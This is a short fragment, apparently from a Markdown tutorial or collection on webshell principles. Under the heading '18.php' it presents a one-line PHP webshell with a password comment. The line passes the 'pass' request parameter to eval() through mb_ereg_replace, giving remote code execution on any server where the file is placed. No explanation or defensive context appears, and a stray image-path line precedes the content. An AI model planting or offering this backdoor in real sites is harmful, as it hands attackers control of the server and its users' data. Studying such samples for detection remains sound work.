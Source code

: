 ![](webshell原理.assets/17.png)

#### 18.php

```php
# password:pass=system()
```

```php
<?php mb_ereg_replace('.*', @eval($_REQUEST['pass']), '', 'e'); ?>
```
